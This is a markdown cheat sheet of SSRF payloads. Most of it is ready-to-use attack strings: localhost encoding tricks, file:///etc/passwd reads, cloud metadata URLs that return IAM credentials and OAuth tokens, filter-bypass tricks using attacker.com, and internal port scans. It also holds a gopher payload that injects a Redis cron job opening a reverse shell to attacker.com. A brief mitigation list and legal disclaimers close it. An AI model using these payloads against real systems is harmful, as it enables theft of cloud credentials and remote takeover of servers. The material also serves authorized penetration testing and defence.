 ```markdown
# SSRF (Server-Side Request Forgery) Payloads Cheat Sheet

Server-Side Request Forgery (SSRF) is a vulnerability that allows an attacker to induce the server to make requests to unintended locations. Below is a collection of SSRF payloads for testing and educational purposes.

## Basic SSRF Payloads

### Standard URL Schemes
```
http://localhost
http://127.0.0.1
http://0.0.0.0
http://[::]
http://[::1]
http://2130706433 (127.0.0.1 in decimal)
http://017700000001 (127.0.0.1 in octal)
http://0x7f000001 (127.0.0.1 in hex)
```

### Alternative Localhost Representations
```
http://127.1
http://127.0.1
http://localhost.
http://localhost@attacker.com
http://127.0.0.1.nip.io
http://localtest.me
http://127.0.0.1.xip.io
```

## Protocol Schemes

### File Protocol
```
file:///etc/passwd
file:///c:/windows/win.ini
```

### DNS Protocol
```
dns://google.com
```

### FTP Protocol
```
ftp://attacker.com
ftp://anonymous:anonymous@attacker.com
```

### Gopher Protocol
```
gopher://127.0.0.1:22/_SSH%20connection%20attempt
gopher://127.0.0.1:25/_SMTP%20commands
gopher://127.0.0.1:6379/_Redis%20commands
```

### Dict Protocol
```
dict://127.0.0.1:6379/info
dict://localhost:11211/stats
```

## Cloud Metadata Endpoints

### AWS
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
```

### Google Cloud
```
http://metadata.google.internal/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

### Azure
```
http://169.254.169.254/metadata/instance?api-version=2021-02-01
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01
```

### DigitalOcean
```
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/user-data
```

## Bypass Techniques

### URL Encoding
```
http://%6c%6f%63%61%6c%68%6f%73%74
http://127.0.0.1%23.attacker.com
```

### Domain Redirection
```
http://attacker.com/redirect.php?url=http://localhost
http://xip.io/127.0.0.1
http://spoofed.burpcollaborator.net
```

### Using @ in URLs
```
http://localhost@attacker.com
http://127.0.0.1:80@attacker.com
```

### Using Fragments
```
http://attacker.com#@localhost/
http://attacker.com?@localhost/
```

### DNS Rebinding
```
http://7f000001.0a00020.rbndr.us (DNS rebinding service)
http://localtest.me (resolves to 127.0.0.1)
```

## Internal Network Scanning

### Common Ports
```
http://127.0.0.1:22
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:8000
http://127.0.0.1:8080
http://127.0.0.1:9000
```

### Database Ports
```
http://127.0.0.1:3306 (MySQL)
http://127.0.0.1:5432 (PostgreSQL)
http://127.0.0.1:27017 (MongoDB)
http://127.0.0.1:6379 (Redis)
```

## SSRF to RCE

### Redis
```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/attacker.com/4444 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a
```

### Memcached
```
gopher://127.0.0.1:11211/_%0d%0aset%20test%200%200%205%0d%0aTEST%0d%0a
```

## Blind SSRF Detection

### Out-of-Band Techniques
```
http://attacker.com/ssrf_callback
http://burpcollaborator.net
http://x.burpcollaborator.net
http://canarytokens.com/tags/ssrf
```

### Time-Based Detection
```
http://localhost:22 (SSH - long timeout)
http://localhost:25 (SMTP - banner response)
```

## Prevention and Mitigation

1. Implement allow-list of permitted domains and protocols
2. Validate and sanitize all user-supplied URLs
3. Disable unused URL schemes (file://, gopher://, dict://, etc.)
4. Use network-level protections (firewalls, egress filtering)
5. Implement proper authentication for internal services
6. Use cloud metadata service v2+ with required headers
7. Disable following redirects from user-supplied URLs
8. Use DNS pinning to prevent DNS rebinding attacks
9. Implement rate limiting on outbound requests
10. Use web application firewalls (WAFs) with SSRF rules

## Important Notes

- These payloads are for educational and authorized testing purposes only
- Unauthorized SSRF attacks are illegal and punishable by law
- Always get proper written authorization before testing
- Many modern systems have protections against SSRF
- Responsible disclosure is recommended when vulnerabilities are found
- Consider using legal bug bounty programs for testing production systems
- Document all testing activities for compliance purposes
- Be extremely cautious when testing cloud metadata endpoints
- Never test systems you don't own or have explicit permission to test

Remember to use these techniques only in environments where you have explicit permission to test. Unauthorized access to computer systems is prohibited by law in most jurisdictions.
```
